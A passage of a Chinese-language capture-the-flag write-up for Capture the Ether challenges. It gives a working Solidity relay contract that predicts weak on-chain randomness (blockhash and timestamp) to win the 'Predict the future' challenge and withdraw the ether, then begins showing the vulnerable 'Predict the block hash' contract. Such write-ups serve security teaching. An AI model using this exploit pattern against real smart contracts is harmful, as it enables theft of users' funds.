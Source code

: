 也就是先猜一个，然后再另外一个函数里面给你生成随机数。那么上题的办法就不管用了。但是好在总共也就10种。

实际的解法跟上题差不多，也是使用一个中继合约，只有当区块符合一定规律时才调用PredictTheFutureChallenge的settle函数。

```solidity
contract PredictTheFutureSolver {
    address owner;
	uint8 guessNumber;
    function PredictTheFutureSolver() public {
        owner = msg.sender;
    }

    function lockInGuess(address _challenge, uint8 n)
    public
    payable {
        require(msg.value == 1 ether);

        PredictTheFutureChallenge challenge = PredictTheFutureChallenge(_challenge);
        challenge.lockInGuess.value(msg.value)(n);
        guessNumber = n;
    }

    function settle(address _challenge)
    public
    payable {
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now)) % 10;

        if (answer == guessNumber) {
            PredictTheFutureChallenge challenge = PredictTheFutureChallenge(_challenge);
            challenge.settle();
        }
    }

    function ()
    public
    payable {
    }

    function withdraw() public {
        require(msg.sender == owner);
        owner.transfer(address(this).balance);
    }
}
```

先猜一个数，调用lockInGuess函数，然后一直调用settle就行了。需要注意的是最好调高点小费，否则很可能会失败。另外呢，虽然说是百分之十的概率，但我是老倒霉蛋了，每次都试了有十几遍才能成功一回。

### Predict the block hash

```solidity
pragma solidity ^0.4.21;

contract PredictTheBlockHashChallenge {
    address guesser;
    bytes32 guess;
    uint256 settlementBlockNumber;

    function PredictTheBlockHashChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

```